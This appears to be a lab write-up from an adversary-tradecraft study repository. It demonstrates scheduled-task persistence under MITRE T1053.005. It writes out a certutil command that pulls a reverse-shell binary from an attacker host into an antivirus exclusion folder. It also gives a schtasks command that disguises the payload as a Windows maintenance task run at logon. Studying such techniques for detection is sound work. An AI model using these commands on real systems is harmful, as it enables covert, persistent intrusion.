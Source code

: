 # T1053.005 – Scheduled Task Masquerade for C2 Persistence

**MITRE ATT&CK Reference:** [T1053.005 – Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

This scenario continues the attack chain from [T1562.001 – Disable or Modify Windows Defender](https://github.com/j-manli/adversary-tradecraft-study/blob/main/03_defense_evasion/disable_or_modify_tools/T1562.001_windows_defender_tamper.md), where an attacker with administrative access weakened host defenses by disabling Defender and adding AV exclusions.

With protections suppressed, the attacker regains persistence by staging their C2 payload via native Windows binary, `certutil` , then configuring a scheduled task that launches it automatically. 
The task is disguised to look like a legitimate Windows maintenance process to both the trained and untrained eye.

---

## Host Configuration

- **Attacker VM:** `HR-COMPLAINTS` (Sliver C2 on Ubuntu 22.04)
  - **IP:** `10.1.0.51`

- **Target VM:** `CEO-LAPTOP` (Windows 10 with Microsoft Defender for Endpoint)
  - **IP:** `10.1.0.69`
  - **Admin Username:** `TrustMeBro`

---

## Execution

With Windows Defender disabled and a folder exclusion added, the attacker proceeds to maintain persistent access.

### 1. Stage Payload Using `certutil`

The attacker hosts a reverse shell binary (`win_maintenance_service.exe`) on their Sliver server and uses `certutil` to download it into the AV exclusion path:

    certutil -urlcache -f http://10.1.0.51/win_maintenance_service.exe C:\ProgramData\Microsoft\Windows\win_maintenance_service.exe  
&nbsp;
<img width="1388" height="347" alt="certutil_download" src="https://github.com/user-attachments/assets/2482f14c-f224-4c13-b5cb-dd7dfb3a251f" />


---

### 2. Create a Masqueraded Scheduled Task

The attacker sets up a scheduled task named `Windows Maintenance Task` to auto-run the payload at user logon:

    schtasks /Create /SC ONLOGON /TN "Windows Maintenance Task" /TR "C:\ProgramData\Microsoft\Windows\win_maintenance_service.exe" /RL HIGHEST /F
